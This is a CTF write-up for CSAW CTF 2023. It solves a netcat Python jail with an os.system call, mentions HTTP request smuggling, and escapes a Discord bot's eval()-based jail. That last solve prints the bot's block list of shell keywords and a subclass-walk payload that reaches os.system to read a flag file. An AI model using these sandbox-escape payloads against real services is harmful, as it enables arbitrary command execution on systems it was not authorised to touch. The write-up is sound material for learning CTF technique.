

#ctf #csaw-ctf-2023 #misc #web #python-jail-escape #http-request-smuggling #discord #discord-bot 
# Intro

> Only played a little for this
## my_first_pwnie

### Info

You must be this 👉 high to ride.

Author: `ElykDeer`

---

Connect with:

`nc intro.csaw.io 31137`

### Solve

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ctf/csaw-ctf-2023]
└─$ rlwrap nc intro.csaw.io 31137
What's the password? __import__('os').system('cat /flag.txt')
csawctf{neigh______}
You entered `0`
Nay, that's not it.
```

# Web

## Smug-Dino

### Info

Don't you know it's wrong to smuggle dinosaurs... and other things?

Author: `rollingcoconut`

---

[http://web.csaw.io:3009/](http://web.csaw.io:3009/)

### Solve

HTTP request smuggling


# Misc

## Discord Admin Bot

### Info

Join discord and get the flag.

discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23

`Author: Krishnan Navadia`

### Solve



There's no way I get admin role at the server, but it's not strictly checking for `role_id`, 

so I can invite the bot to my own server, then give myself a role called `admin`


The pyjail uses `eval()` to wrap user input


It doesn't ban `class`

```python
SHELL_ESCAPE_CHARS = [":", "curl", "bash", "bin", "sh", "exec", "eval,", "|", "import", "chr", "subprocess", "pty", "popen", "read", "get_data", "echo", "builtins", "getattr"]

def excape_chars(strings_array, text):
    return any(string in text for string in strings_array)
```

Invite that bot by copying its id, then fit in the invite url format : `https://discord.com/oauth2/authorize?client_id=1152454751879962755&scope=bot&permissions=8`


Craft payload :

First mirror the functions in `ipython3` to test on local

```python
import subprocess, os

SHELL_ESCAPE_CHARS = [":", "curl", "bash", "bin", "sh", "exec", "eval,", "|", "import", "chr", "subprocess", "pty", "popen", "read", "get_data", "echo", "builtins", "getattr"]

def excape_chars(strings_array, text):
    return any(string in text for string in strings_array)

def pyjail(text):
    if excape_chars(SHELL_ESCAPE_CHARS, text):
        return "No shells are allowed"

    text = f"print(eval(\"{text}\"))"
    proc = subprocess.Popen(['python3', '-c', text], stdout=subprocess.PIPE, preexec_fn=os.setsid)
    output = ""
    try:
        out, err = proc.communicate(timeout=1)
        output = out.decode().replace("\r", "")
        print(output)
        print('terminating process now')
        proc.terminate()
    except Exception as e:
        proc.kill()
        print(e)

    if output:
        return f"```{output}```"
```


```bash
In [3]: pyjail("''.__class__.__mro__[1].__subclasses__()")
```


Success

```bash
In [14]: pyjail("''.__class__.__mro__[1].__subclasses__()[140].__init__.__globals__['system']('pwd')")
/home/kali/ctf/csaw-ctf-2023
0

terminating process now
Out[14]: '```/home/kali/ctf/csaw-ctf-2023\n0\n```'
```

Final payload :

```bash
print(''.__class__.__mro__[1].__subclasses__()[140].__init__.__globals__['system']('cat flag.txt'))
```

